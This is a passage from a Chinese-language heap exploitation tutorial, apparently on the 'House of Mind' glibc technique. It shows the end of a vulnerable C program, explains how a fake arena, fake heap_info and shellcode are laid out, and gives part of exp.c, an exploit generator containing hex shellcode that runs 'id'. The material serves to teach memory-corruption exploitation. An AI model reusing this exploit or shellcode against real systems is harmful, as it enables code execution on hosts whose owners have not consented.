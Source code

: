 ```c
 fread (ptr, 1024 * 1024, 1, stdin);

 /* [4] */
 free(ptr2); /* Prereq 2: Freeing a chunk whose size and its arena pointer is controlled by the attacker. */
 /* [5] */
 free(ptr3); /* Shell code execution. */
 return(0); /* Bye */
}
```

上述漏洞程序的堆内存：

![1](http://upload-images.jianshu.io/upload_images/118142-78eb0f74e7013d80.png)

漏洞程序的行`[3]`是堆溢出发生的地方。用户输入储存在块 1 的`mem`指针处，大小共计 1MB。所以为了成功利用堆溢出，攻击者提供了下面的用户输入（列出顺序相同）。

+   伪造的 arena
+   垃圾数据
+   伪造的 `heap_info`
+   Shellcode

利用程序：这个程序生成了攻击者的数据文件：

```c
/* exp.c
Program to generate attacker data.
Command:
     #./exp > file
*/
#include <stdio.h>

#define BIN1 0xb7fd8430

char scode[] =
/* Shellcode to execute linux command "id". Size - 72 bytes. */
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";

char ret_str[4] = "\x00\x00\x00\x00";

void convert_endianess(int arg)
{
        int i=0;
        ret_str[3] = (arg & 0xFF000000) >> 24;
        ret_str[2] = (arg & 0x00FF0000) >> 16;
        ret_str[1] = (arg & 0x0000FF00) >> 8;
        ret_str[0] = (arg & 0x000000FF) >> 0;
}
int main() {
        int i=0,j=0;

        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd_nextsize */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk_nextsize */
        /* Fake Arena. */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* mutex */
        fwrite("\x01\x00\x00\x00", 4, 1, stdout); /* flag */
        for(i=0;i<10;i++)
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fastbinsY */
        fwrite("\xb0\x0e\x10\x08", 4, 1, stdout); /* top */
```